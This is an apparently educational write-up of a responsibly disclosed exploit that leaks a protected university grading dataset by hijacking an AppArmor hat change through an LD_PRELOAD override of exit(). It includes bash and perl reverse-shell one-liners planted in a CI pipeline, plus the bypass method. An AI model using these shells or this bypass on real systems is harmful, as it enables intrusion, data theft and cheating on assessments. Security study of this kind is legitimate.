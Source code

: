 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/target_address/target_port 0>&1
```
or alternatively with perl:
```perl
perl -e 'use Socket;$i="target_address";$p=target_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and even minimalist dev-containers ship with perl installed.

In any case, inserting this into the deployment script leaves us with a simple, but functional reverse shell.\
You might also find this useful if you ever have to debug a CI/CD pipeline.

### 2. Inspecting the target program
Let us take a quick look at the Ghidra disassembler output of relevant section of the `measure` program:
![measure](img/measure.png)
Line `92` swaps into the privileged profile. Line `129` swaps out of it.\
Line `122` executes the untrusted program.

The problem is that we can not simply call [`aa_change_hat()`](https://man.archlinux.org/man/aa_change_hat.2.en) ourselves.
The [AppArmor](https://www.apparmor.net/) kernel security module checks the binary origin path of the process executing the respective syscall.
If we were to call this function in our untrusted program (or any other program placed on the target machine), the security profile change would be *denied*. Only a process with the origin binary `/data/delivery/measure` (the path of the trusted measure program) may perform the hat change.

### 3. Bypassing AppArmor protection

How can we *become* the `measure` program?\
We can not overwrite or modify its binary and we can not access its memory at runtime.

We *do* control the *context* in which it is launched though.
Specifically, the **environmental variables** present at its launch.

An environmental variable with useful effects for our cause is the `LD_PRELOAD` variable.
It instructs the [dynamic linker](https://linux.die.net/man/8/ld-linux) to link a dynamic library from a specified path into any program that is launched while `LD_PRELOAD` is in context.

The hereby linked library **takes precedent** over any dynamic library that would *usually* be linked into the target program.

In our case, this allows us to supply the `measure` program with our own (and very excellent) implementation of the `libc` [`exit()`](https://www.man7.org/linux/man-pages/man3/exit.3.html) function:
[![solve](img/solve.png)](leak.cpp)

Instead of exiting the program as planned, this calls the `aa_change_hat()` function.\
This works, because we are now part of the trusted `measure` process, and therefore executing from the same source binary path.

After changing security profile, we are allowed to read the content of the secret `/opt/tpch/sf1/customer1.tbl` dataset.
As we are not allowed to print while in this profile, we have to save its content to an internal buffer.
We then swap the back the security profile and print to `stderr`, successfully leaking the secret dataset.

The issue has been reported responsibly and is fixed in the latest version.
